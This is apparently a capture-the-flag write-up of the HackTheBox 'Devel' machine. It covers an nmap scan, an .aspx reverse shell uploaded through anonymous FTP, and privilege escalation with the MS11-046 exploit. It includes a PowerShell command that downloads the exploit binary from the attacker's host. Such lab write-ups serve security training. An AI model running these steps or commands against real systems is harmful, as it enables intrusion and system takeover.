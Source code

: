 # Devel
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/f386dc63-4e14-4568-afd6-faa1720e7732" load="lazy"></img>
</div>


  Welcome back, here we have a very old HacktheBox easy machine, that for this reason is really simple, but let’s start as usual, by running `nmap`

  ```plaintext
  ┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Devel]
  └─$ sudo nmap -sS -sC -sV --script=vuln -oN scans/nmap.txt 10.10.10.5
  [sudo] password for kali: 
  Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 14:50 EDT
  Nmap scan report for 10.10.10.5
  Host is up (0.056s latency).
  Not shown: 998 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     Microsoft ftpd
  80/tcp open  http    Microsoft IIS httpd 7.5
  |_http-server-header: Microsoft-IIS/7.5
  | vulners: 
  |   cpe:/a:microsoft:internet_information_services:7.5: 
  |       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
  |       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
  |       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
  |       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
  |_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
  |_http-dombased-xss: Couldn't find any DOM based XSS.
  |_http-csrf: Couldn't find any CSRF vulnerabilities.
  |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 253.22 seconds
  ```
  
  As always we have a website that we can visit
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3d4b9792-8015-4ca5-9c13-6d2f344fbfb3" load="lazy" ></img>
  
  This is the tipical page of Windows IIS, where we have nothing to do, but from nmap we can see that there is the ftp port, and maybe we can login via anonymous
  
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b0f2e002-12d3-410b-9658-b1274483d886" load="lazy"></img>
  
  
  And we are in! By listing the files we can see that there are all the pages that are visitable from the site, like the `welcome.png` one.
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/78de96a2-01ef-4521-af83-ca2d1b8dcde2" load="lazy" ></img>

  
  We can now try to upload custom files like a revshell in php or py.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/53edac12-de11-4a8c-b3cd-ddee6c0d2605" load="lazy" ></img>

  
  As you can see neither of them seems not to be readable from the website page, so we can think of an executable extension allowed, and because we are in an `aspnet_client`, maybe we can use the `.aspx` extension.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/70801370-8c8c-4c11-acf3-639794f6960e" load="lazy" ></img>
 
  
  It works so now we can upload an `.aspx` reverseshell found [online](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).
  Now we just need to upload it and visit the page while listening at that port
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6afc1ae2-b706-44ae-81ae-397738e04e64" load="lazy"></img>
  
  ## Privilege Escalation
  
  In this machine we won’t be able to read the user flag until we will get to admin, because we are not allowd to visit the user page, but by looking at the system informations we can get some interesting infos
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b466cd52-7d35-4242-bbdf-0b08ec794eb8" load="lazy"></img>

  
  As you can see we have a pretty old windows version without any Hot-Fix, and by looking for it online we found an interesting page 

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/42ac3ed2-d3e5-43c5-a6f7-70a6f0153e8a" load="lazy"></img>

  
  
  We have even the `EDB-ID` that we can use to fetch the exploit from searchsploit
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/0c8e9333-9965-4c43-882a-0217713822c3" load="lazy"></img>

  
  Now we need to compile the code in the given way of the `CVE`
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a743e510-f373-40aa-9bf3-0302fcf077ec" load="lazy"></img>
  
  
  
  So just compile and trasfer it via python server 
  
  ```c
  powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.204:8000/MS11-046.exe', 'C:\Windows\Temp\MS11-046.exe')"
  ```
  
  And here is the exploit execution

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a4eb57ba-388f-4303-a7af-a4f8238df9f6" load="lazy"></img>

  
  
  Now we are system and like this we can fetch all the flags
  
  ```plaintext
  c:\>type \Users\babis\Desktop\user.txt
  type \Users\babis\Desktop\user.txt
  aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX6
  
  c:\>type \Users\administrator\Desktop\root.txt
  type \Users\administrator\Desktop\root.txt
  6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
  ```
  Just like this we solved the machine

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/9adc4f54-8bd3-41dd-bde1-311c173dde88" load="lazy"></img>

</div>
